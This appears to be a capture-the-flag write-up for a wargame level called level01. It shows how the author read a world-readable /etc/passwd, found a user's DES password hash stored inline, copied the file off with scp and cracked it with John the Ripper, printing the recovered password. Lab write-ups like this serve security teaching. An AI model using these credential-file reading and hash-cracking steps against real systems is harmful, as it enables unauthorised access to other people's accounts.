 # level01
We are greeted, very much in the same fashion as the previous level, with nothing at hand.
No scan of the machine brings anything relevant, ownership-wise.

How could we ever obtain this direly needed password?
Do we even need a password ?

# Resolution
Let's head to the /etc/passwd file.
This file contains infox about all the users on the machine, their UIDs, GIDs, and also their password validation mechanism.
No regular user should be able to read it, since its content are quite sensitive.
But its permissions are set so that everyone can read it! 

On all users, the "x" on the second field of the string indicates that the password should be compared against a hash on a separate file, `/etc/shadow`, which we cannot access.

All users? No! Only one indomitable user still holds out against the common good practice of computer security.
And of course, this user is of the highest relevance for us.

`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`

What that means is that the password hash of the user we need is directly embedded into a file we can read.

That means it's password bruteforcing time. We're gonna use John.

Let's fire up a debian container on our host.
```sh
docker run -it --name test debian /bin/bash
```
After installing ssh and john, and grabbing the /etc/passwd via scp, we can decode.
```sh
root@db5b1d8d1f39:~# john passwd 
Created directory: /root/.john
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefg          (flag01)
1g 0:00:00:00 100% 2/3 2.631g/s 44752p/s 44752c/s 44752C/s 123456..betabeta
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

That was an easy one.